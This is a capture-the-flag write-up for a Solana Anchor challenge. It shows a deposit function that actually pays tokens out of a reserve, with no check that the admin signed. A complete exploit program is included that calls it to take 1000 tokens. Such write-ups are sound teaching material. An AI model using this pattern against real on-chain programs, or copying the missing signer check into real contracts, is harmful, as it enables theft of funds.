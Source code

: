 #Baby-1
The challenge is written in anchor and it is straight forward,though quality challenge,we spent decent time and alot of failed exploits as well :p

## Goal
balance of user == 1000

## Challenge 
The src file has an `initialize` function which we can fairly ignore.
when we look at `Deposit()` we observe that it infacts functions as a withdraw function. The vulnerability for this challenge lies within the `Deposit()` function let's dive into it
```rust
 pub fn deposit(ctx: Context<Deposit>, amount: u64) -> Result<()> {
        let reserve_bump = [*ctx.bumps.get("reserve").unwrap()];
        let signer_seeds = [
            b"RESERVE",
            reserve_bump.as_ref()
        ];
        let signer = &[&signer_seeds[..]];

        let withdraw_ctx = CpiContext::new_with_signer(
            ctx.accounts.token_program.to_account_info(),
            Transfer {
                from: ctx.accounts.reserve.to_account_info(),
                to: ctx.accounts.user_account.to_account_info(),
                authority: ctx.accounts.reserve.to_account_info()
            },
            signer
        );
        token::transfer(withdraw_ctx, amount)?;
        Ok(())
    }
```

```rust
#[derive(Accounts)]
pub struct Deposit<'info> {
    #[account(
        mut,
        seeds = [ b"CONFIG" ],
        bump,
        has_one = admin
    )]
    pub config: Account<'info, Config>,

    #[account(
        mut,
        seeds = [ b"RESERVE" ],
        bump,
        constraint = reserve.mint == mint.key(),
    )]
    pub reserve: Account<'info, TokenAccount>,

    #[account(
        mut,
        seeds = [b"account", user.key().as_ref()],
        bump,
        constraint = user_account.mint == mint.key(),
        constraint = user_account.owner == user.key(),
    )]
    pub user_account: Account<'info, TokenAccount>,

    pub mint: Account<'info, Mint>,

    #[account(mut)]
    pub admin: AccountInfo<'info>,
    
    #[account(mut)]
    pub user:  Signer<'info>,
    pub token_program: Program<'info, Token>,
    pub system_program: Program<'info, System>,
    pub rent: Sysvar<'info, Rent>,
}
```

we observe that `admin` is set to `Account<'info>` while `user` is set to `Signer`
meaning we can simply sign the tx as admin and withdraw as much tokens as we like

## Exploitation
`anchor init exploit`

```rust
use anchor_lang::prelude::*;

use anchor_lang::prelude::*;
use chall; // Import the chall crate

declare_id!("2MQDi1GYGUWNcG9KaN32eU2ug2e3k5GiozwRbGHxEwub");

#[program]
pub mod exploit {
    use super::*;

    pub fn withdraw_1000(ctx: Context<Withdraw1000>) -> Result<()> {
        let cpi_accounts = chall::cpi::accounts::Deposit {
            config: ctx.accounts.config.to_account_info(),
            reserve: ctx.accounts.reserve.to_account_info(),
            user_account: ctx.accounts.user_account.to_account_info(),
            mint: ctx.accounts.mint.to_account_info(),
            admin: ctx.accounts.admin.to_account_info(),
            user: ctx.accounts.user.to_account_info(),
            token_program: ctx.accounts.token_program.to_account_info(),
            system_program: ctx.accounts.system_program.to_account_info(),
            rent: ctx.accounts.rent.to_account_info(),
        };
        let cpi_ctx = CpiContext::new(ctx.accounts.chall.to_account_info(), cpi_accounts);
        chall::cpi::deposit(cpi_ctx, 1000)?; // Withdraw 1000 tokens
        Ok(())
    }
}

#[derive(Accounts)]
pub struct Withdraw1000<'info> {
    #[account(mut)]
    pub config: Account<'info, chall::Config>,
    #[account(mut)]
    pub reserve: Account<'info, anchor_spl::token::TokenAccount>,
    #[account(mut)]
    pub user_account: Account<'info, anchor_spl::token::TokenAccount>,
    pub mint: Account<'info, anchor_spl::token::Mint>,
    #[account(mut)]
    pub admin: AccountInfo<'info>,
    #[account(mut)]
    pub user: Signer<'info>,
    pub token_program: Program<'info, anchor_spl::token::Token>,
    pub system_program: Program<'info, System>,
    pub rent: Sysvar<'info, Rent>,
    pub chall: Program<'info, chall::Chall>,
}
```
